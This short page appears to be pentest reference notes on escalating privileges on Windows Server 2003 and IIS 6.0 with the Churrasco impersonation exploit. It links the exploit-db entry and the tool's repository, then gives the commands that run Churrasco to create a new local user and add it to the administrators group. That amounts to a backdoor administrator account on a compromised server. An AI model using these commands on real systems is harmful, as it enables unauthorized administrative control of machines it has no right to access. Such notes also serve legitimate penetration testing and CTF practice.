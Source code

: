 # Windows Server 2003 and IIS 6.0 privledge escalation using impersonation:

https://www.exploit-db.com/exploits/6705/ \
https://github.com/Re4son/Churrasco

```sh
$ c:\Inetpub>churrasco 
churrasco /churrasco/-->Usage: Churrasco.exe [-d] "command to run"

  c:\Inetpub>churrasco -d "net user /add <username> <password>"
  c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
```


